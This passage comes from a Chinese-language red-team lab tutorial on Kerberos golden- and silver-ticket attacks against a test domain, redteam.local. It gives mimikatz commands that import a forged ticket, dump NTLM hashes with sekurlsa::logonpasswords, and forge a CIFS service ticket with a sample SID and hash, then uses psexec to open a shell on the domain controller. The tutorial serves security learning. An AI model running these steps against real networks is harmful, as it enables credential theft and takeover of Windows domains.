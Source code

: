 可以看到没有任何票证。

 **导入gold.kribi**

    
    
     kerberos::ptt C:\Users\jack\Desktop\gold.kirbi

![]()

成功导入administrator票据。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192536.png)

可以通过事件管理器查看到是以administrator来登录的

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192537.png)

# 0x02 银票

如果我们拥有服务的hash，就可以给自己签发任意用户的TGS票据。金票是伪造TGT可用于访问任何Kerberos服务，而银票是伪造TGS，仅限于访问针对特定服务器的任何服务。

这里使用CIFS服务，该服务是windows机器之间的文件共享。

## 2.1 获取sid

    
    
    whoami /user

![]()

## 2.2 导出服务账号的NTLM Hash

    
    
    privilege::Debugsekurlsa::logonpasswords

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192538.png)

## 2.3 创建银票

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192539.png)

    
    
    kerberos::golden /domain:redteam.local/sid:S-1-5-21-151877218-3666268517-4145415712/target:DC.redteam.local/service:cifs /rc4:0703759771e4bed877ecd472c95693a5/user:administrator /ptt

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192540.png)

psexec获取DC机器cmd

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192541.png)
